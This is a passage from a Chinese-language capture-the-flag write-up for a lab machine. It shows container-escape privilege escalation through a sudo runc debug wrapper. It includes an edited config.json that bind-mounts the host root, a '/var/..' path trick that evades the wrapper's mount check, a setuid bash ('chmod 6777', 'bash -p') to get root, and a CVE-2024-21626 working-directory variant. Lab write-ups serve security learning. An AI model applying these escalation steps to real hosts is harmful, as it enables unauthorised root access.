		"namespaces": [
			{
				"type": "pid"
			},
			{
				"type": "network"
			},
			{
				"type": "ipc"
			},
			{
				"type": "uts"
			},
			{
				"type": "mount"
			},
			{
				"type": "cgroup"
			}
		],
		"maskedPaths": [
			"/proc/acpi",
			"/proc/asound",
			"/proc/kcore",
			"/proc/keys",
			"/proc/latency_stats",
			"/proc/timer_list",
			"/proc/timer_stats",
			"/proc/sched_debug",
			"/sys/firmware",
			"/proc/scsi"
		],
		"readonlyPaths": [
			"/proc/bus",
			"/proc/fs",
			"/proc/irq",
			"/proc/sys",
			"/proc/sysrq-trigger"
		]
	}
}
```
</details>

#### 如果我使用 ` --file` 命令debug，生成的文件将归 root 用户所有且只有 root 用户才能写入。虽然可以通过移动目录并创建一个可编辑的副本来克服这个限制，因为 babywyrm 拥有该目录，所以我可以这样做。但直接运行 `--file` 命令runc更简单。
#### 将进行修改，在mounts列表中添加以下内容，以便将主机文件系统挂载到容器中的以下位置/hostfs：
```
...[SNIP]...
	"mounts": [
		{
			"destination": "/hostfs",           //在容器里，把它放到 /hostfs
			"type": "bind",           //bind mount（绑定挂载），不是复制，是“直接映射”
			"source": "/",           //挂载 宿主机的根目录 /
			"options": ["rbind", "rw"]           //rbind →递归挂载（子目录也带上），rw → 可读可写
		},
		{
			"destination": "/proc",
...[/SNIP]...
```
#### 将启动容器：
```
babywyrm@giveback:/tmp/runc$ sudo /opt/debug run syareyaroot
[sudo] password for babywyrm: 
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 

[*] Administrative password verified
[*] Processing command: run
Error: Host root filesystem mount detected - not permitted
```
#### 该debug二进制文件阻塞了挂载。这在发布版本中可以正常工作，但在 2025 年 11 月的更新日志中添加了一个补丁，增加了这项检查
```
	"mounts": [
		{
			"destination": "/hostfs",
			"type": "bind",
			"source": "/var/..",
			"options": ["rbind", "rw"]
		},
		{
			"destination": "/proc",
			"type": "proc",
			"source": "proc"
		},
		{
			"destination": "/dev",
```
#### 主机文件系统挂载为hostfs：
```
babywyrm@giveback:/tmp/runc$ sudo /opt/debug run syareyaroot
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 

[*] Administrative password verified
[*] Processing command: run
[*] Starting container: syareyaroot
# ls
bin  dev  hostfs  lib  lib64  proc  sys
# cd /hostfs/    
# ls
bin   cdrom  etc   lib	  lib64   lost+found  mnt  proc  run   srv  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  sys  usr
# cd root
# ls
'\'   audit__.sh   coredns   dns.sh   helm   iptables_rules.sh	 python   root.txt
# cat root.txt

babywyrm@giveback:/tmp/runc$ ls rootfs/
bin  dev  hostfs  lib  lib64  proc  sys
```
#### 将从主机获取 root 权限（这样做是-p为了不降低权限）
```
# chmod 6777 /hostfs/bin/bash
# bash -p 
bash-5.1# id
uid=0 gid=0 groups=0
```
### 另外
#### 由于 CVE-2024-21626 漏洞，runc容器在设置过程中会泄露指向主机文件系统上某个位置的文件描述符。通过将工作目录设置为主机文件系统上的某个位置/proc/self/fd/7，容器进程启动时其当前工作目录将指向容器外部，即主机目录
https://nvd.nist.gov/vuln/detail/cve-2024-21626
```
babywyrm@giveback:/tmp/0xdf$ vim config.json 
babywyrm@giveback:/tmp/0xdf$ cat config.json | grep cwd
                "cwd": "/proc/self/fd/7",

babywyrm@giveback:/tmp/0xdf$ sudo /opt/debug --log /tmp/log.json run exploit
```
